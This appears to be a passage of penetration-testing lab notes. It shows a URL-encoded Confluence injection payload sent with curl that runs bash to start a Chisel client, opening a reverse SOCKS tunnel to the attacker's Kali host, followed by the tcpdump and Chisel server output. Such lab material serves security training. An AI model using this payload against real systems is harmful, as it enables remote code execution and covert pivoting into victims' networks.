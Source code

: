 We can then try to run the Chisel client again on CONFLUENCE01 using the injection:
```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

This time, different kind of traffic is logged in our Tcpdump session
```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
...
```

The traffic that Tcpdump has logged indicates that the Chisel client has created an HTTP WebSocket connection with the server running on out Kali machine
+ On top of this, our Chisel server has logged an inbound connection:
```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
2023/10/03 18:13:54 server: session#2: Client version (1.8.1) differs from server version (1.8.1-0kali2)
2023/10/03 18:13:54 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
